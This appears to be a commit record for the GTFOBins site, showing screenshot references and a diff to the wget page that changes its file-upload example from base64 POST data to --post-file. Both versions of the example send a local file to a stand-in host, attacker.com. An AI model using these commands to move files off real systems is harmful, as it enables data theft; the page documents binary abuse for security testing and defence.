

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/wget.md, in a window 1280 px wide. Shown: the whole page at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1286 px from its top, so only the background shows below that.

Commit message:
Get rid of base64 for curl and wget and make descriptions similar
Close #24.

```diff
--- a/_gtfobins/wget.md
+++ b/_gtfobins/wget.md
@@ -1,11 +1,11 @@
 ---
 functions:
   upload:
-    - description: Send base64-encoded local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
+    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
       code: |
         export URL=http://attacker.com/
         export LFILE=file_to_send
-        wget --post-data="d=$(base64 $LFILE | tr -d '\n')" $URL
+        wget --post-file=$LFILE $URL
   download:
     - description: Fetch a remote file via HTTP GET request.
       code: |
```
Also changed, not shown: _gtfobins/curl.md (+1 -1 lines).
